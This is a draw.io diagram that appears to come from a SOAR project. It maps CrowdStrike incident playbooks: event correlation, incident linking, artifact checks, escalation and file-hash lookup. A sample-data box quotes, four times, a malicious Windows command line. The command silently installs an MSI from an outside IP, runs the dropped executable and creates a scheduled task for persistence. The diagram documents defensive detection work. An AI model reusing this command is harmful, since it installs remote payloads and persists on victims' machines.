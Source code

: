 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="875" dy="478" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="60" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="260" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="670" y="1420" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="460" y="1390" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="860" y="1370" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1320" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1119" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1319" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1519" y="1470" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="650" y="1390" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="730" y="1390" as="sourcePoint" />
            <mxPoint x="730" y="1320" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="640" y="1160" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="910" y="1520" as="sourcePoint" />
            <mxPoint x="920.86" y="1470" as="targetPoint" />
            <Array as="points">
              <mxPoint x="910" y="1490" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="815" y="1520" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1210" y="1630" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1320" y="1579.04" as="sourcePoint" />
            <mxPoint x="1380.04" y="1530" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="50" y="1090" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="1110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="220" width="5410" height="1000" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
